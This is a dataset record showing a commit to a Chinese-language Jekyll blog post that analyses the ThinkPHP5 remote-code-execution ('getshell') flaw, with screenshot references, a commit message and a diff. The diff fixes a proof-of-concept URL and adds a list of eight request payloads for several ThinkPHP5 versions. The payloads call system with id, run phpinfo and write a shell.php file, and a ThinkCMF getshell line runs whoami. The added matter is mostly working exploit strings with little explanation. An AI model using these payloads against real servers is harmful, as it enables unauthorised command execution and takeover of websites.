

Before and after one commit to white-cell/white-cell.github.io, a Jekyll site: the page built from _posts/2018-12-11-Thinkphp5 getshell漏洞分析.md, in a window 1280 px wide and 900 px high, scrolled down 2197 px. Shown: the whole window, without its empty margins (233-1142 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add Thinkphp5 getshell漏洞分析

```diff
--- a/_posts/2018-12-11-Thinkphp5 getshell漏洞分析.md
+++ b/_posts/2018-12-11-Thinkphp5 getshell漏洞分析.md
@@ -9,7 +9,7 @@
 
 ### 在thinkphp5 getshell poc
 这是目前公开5.0.20的poc<br/>
-/index.php?s=index/\think\app/invokefunction&function=call_user_func&var[0]=system&var[1]=ls<br/>
+/index.php?s=index/\think\app/invokefunction&function=call_user_func&var[0]=system&var[1][]=ls<br/>
 ![图片0](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/0.jpg)<br />
 调用过程如下<br/>
 ![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/1.jpg)<br />
@@ -20,6 +20,15 @@
 通过call_user_func执行<br/>
 ![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/3.jpg)<br />
 并不局限于以上两个方法，但一定是think\这个命名空间下的已知类<br/>
+### thinkphp5不同版本的payload
+1. index.php?s=index/\think\Request/input&filter=phpinfo&data=1<br />
+2. index.php?s=index/\think\Request/input&filter=system&data=id<br />
+3. index.php?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<br />
+4. index.php?s=index/\think\view\driver\Php/display&content=<br />
+5. index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1<br />
+6. index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id<br />
+7. index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1<br />
+8. index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id<br />
 ### thinkcmf利用过程区别
 getshell poc<br/>
 /public/index.php?s=portal/\think\app/invokefunction&function=call_user_func&function_name=system&parameters=whoami<br/>
```
